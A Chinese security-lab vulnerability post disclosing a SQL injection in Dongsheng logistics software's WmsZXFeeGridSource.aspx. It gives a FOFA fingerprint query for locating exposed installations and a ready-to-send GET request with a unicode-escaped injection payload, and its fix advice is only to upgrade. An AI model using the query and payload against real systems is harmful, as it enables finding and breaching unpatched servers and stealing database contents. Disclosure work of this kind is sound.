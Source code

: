 #  东胜物流软件 WmsZXFeeGridSource.aspx SQL注入漏洞  
原创 zz  星络安全实验室   2025-07-19 05:17  
  
<table><tbody><tr><td data-colwidth="576"><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></td></tr></tbody></table>  
漏洞详情：  
  
东胜物流软件是青岛东胜伟业软件有限公司一款集订单管理、仓库管理、运输管理等多种功能于一体的物流管理软件。东胜物流信息管理系统 WmsZXFeeGridSource.aspx 存在SQL注入漏洞，攻击者可以通过该漏洞获取数据库敏感信息  
  
漏洞复现：  
  
fofa：  
```
body="FeeCodes/CompanysAdapter.aspx" || body="dhtmlxcombo_whp.js" || body="dongshengsoft" || body="theme/dhtmlxcombo.css"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcHC6gPlDoibVcge7UXeAG0J8gC4CgOECQibqIgvno0fj90Ube33Vz1tAbcOTpJObKj8MWo3bSOibl1A/640?wx_fmt=png&from=appmsg "")  
  
poc：  
  
```
GET /WMS_ZX/WmsZXFeeGridSource.aspx?areaname=%20%20%20%20%5c%75%30%30%33%31%5c%75%30%30%32%37%5c%75%30%30%36%31%5c%75%30%30%36%65%5c%75%30%30%36%34%5c%75%30%30%32%30%5c%75%30%30%33%31%5c%75%30%30%33%63%5c%75%30%30%34%30%5c%75%30%30%34%30%5c%75%30%30%35%36%5c%75%30%30%34%35%5c%75%30%30%35%32%5c%75%30%30%35%33%5c%75%30%30%34%39%5c%75%30%30%34%66%5c%75%30%30%34%65%5c%75%30%30%32%64%5c%75%30%30%32%64%20%20%20%20&read=%20%20%20%20areaname%20%20%20%20 HTTP/1.1Host: xx
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcHC6gPlDoibVcge7UXeAG0JzTddqRKvicXlNZl7T4rEPDpxe3U17vXh5WZOsZfGPosaiaUs1OeRv7Jw/640?wx_fmt=png&from=appmsg "")  
  
修复建议：  
  
关注厂商动态，升级至安全版本  
  
  
